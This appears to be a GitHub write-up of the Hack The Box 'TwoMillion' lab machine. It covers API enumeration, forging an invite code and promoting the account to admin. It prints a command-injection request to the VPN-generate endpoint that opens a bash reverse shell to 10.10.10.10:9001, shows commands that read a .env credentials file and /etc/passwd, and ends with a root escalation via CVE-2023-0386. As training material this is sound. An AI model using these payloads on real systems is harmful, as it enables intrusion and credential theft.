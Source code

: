  </br>[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=TwoMillion)](https://git.io/typing-svg)
</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic1.png" alt="Alt Text">
</a>
</br>
</br>
</br>

## Nmap-scan
</br>

First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic2.png" alt="Alt Text">
</a>
</br>

We need to include "2million.htb" in our /etc/hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```

</br>

## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic3.png" alt="Alt Text">
</a>
</br>
While exploring the website, I discovered that I can join the platform by obtaining an invite code.
</br>

`http://2million.htb/invite`

</br>
I came across a JavaScript code that contains some intriguing elements. 
</br>

`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic4.png" alt="Alt Text">
</a>

</br>
I am interested in generating my own invite code as well.
</br>
I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.
</br>


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic6.png" alt="Alt Text">
</a>
</br>

After decoding the ROT13 cipher, we discovered the method to generate our own invite code.


</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method

</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic5.png" alt="Alt Text">
</a>
</br>
Since the invite is encoded using base64, it should be easy to obtain one.

</br>

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative

</br>

Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.
Fortunately, I have come across some intriguing findings that piqued my interest. "/api/v1"


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

</br>

I will attempt to update my settings

</br>

```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```

</br>

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic8.png" alt="Alt Text">
</a>


Great!

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic9.png" alt="Alt Text">
</a>

Now that we have identified vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## Privilege 

After logging in, I discovered an interesting file named ".env".
(A .env file is typically used to store sensitive information)

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
